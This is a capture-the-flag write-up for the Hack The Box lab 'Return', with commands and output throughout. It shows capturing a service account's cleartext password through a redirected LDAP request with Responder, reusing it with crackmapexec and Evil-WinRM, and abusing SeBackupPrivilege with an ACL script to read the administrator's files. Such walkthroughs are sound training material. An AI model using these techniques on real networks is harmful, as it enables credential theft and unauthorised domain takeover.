 # Return

Return is a easy HTB lab that focuses on exploit network printer administration panel and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

<!-- toc -->

### Recon

The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
[★]$ IP=10.129.95.241
[★]$ sudo nmap -p- -sV -sC $IP

Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-05 04:23 GMT
Stats: 0:00:44 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 16.00% done; ETC: 04:25 (0:00:32 remaining)
Nmap scan report for 10.129.95.241
Host is up (0.024s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-05 04:43:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-01-05T04:44:12
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.84 seconds
```

### User
Adding new domains to `/etc/hosts`. `sudo tee --append /etc/hosts <<< "10.129.95.241 return.local0 return.local"`

`printer.return.local` makes ldap request for `svc-printer` password update. Let's cature this:

We can make the request to our server instead of printer.return.local to capture this request credentials:
```
$ sudo responder -I tun0

[LDAP] Cleartext Client   : 10.129.95.241
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1ed******012!!
```

[★]$ sudo crackmapexec smb return.local -u 'svc-printer' -p '1ed******012!!' --shares
```
SMB         return.local0   445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         return.local0   445    PRINTER          [+] return.local\svc-printer:1ed******012!!
SMB         return.local0   445    PRINTER          [+] Enumerated shares
SMB         return.local0   445    PRINTER          Share           Permissions     Remark
SMB         return.local0   445    PRINTER          -----           -----------     ------
SMB         return.local0   445    PRINTER          ADMIN$          READ            Remote Admin
SMB         return.local0   445    PRINTER          C$              READ,WRITE      Default share
SMB         return.local0   445    PRINTER          IPC$            READ            Remote IPC
SMB         return.local0   445    PRINTER          NETLOGON        READ            Logon server share 
SMB         return.local0   445    PRINTER          SYSVOL          READ            Logon server share 
```

Using these credentials, we can get the user flag:

*Evil-WinRM* PS C:\Users\svc-printer\Documents> type ..\Desktop\user.txt
```
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation

Checking the permissions of the current users:
```
*Evil-WinRM* PS C:\Users\svc-printer> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

Based on this privilege, we can search for the exploits for `SeBackupPrivilege`. Using this, we can exploit using https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Acl-FullControl.ps1

Updating the permissions of the folder so that we can read the flag:
```
*Evil-WinRM* PS C:\Users\svc-printer> Import-module .\acl.ps1; Acl-FullControl -user svc-printer -path c:\users\administrator\
[+] Current permissions:


Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\administrator\
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         RETURN\Administrator Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)

[+] Changing permissions to c:\users\administrator\
[+] Acls changed successfully.

Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\administrator\
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         RETURN\Administrator Allow  FullControl
         RETURN\svc-printer Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)(A;OICI;FA;;;S-1-5-21-3750359090-2939318659-876128439-1103)
```

Getting the flag:
```
*Evil-WinRM* PS C:\Users\svc-printer> type ..\Administrator\Desktop\root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
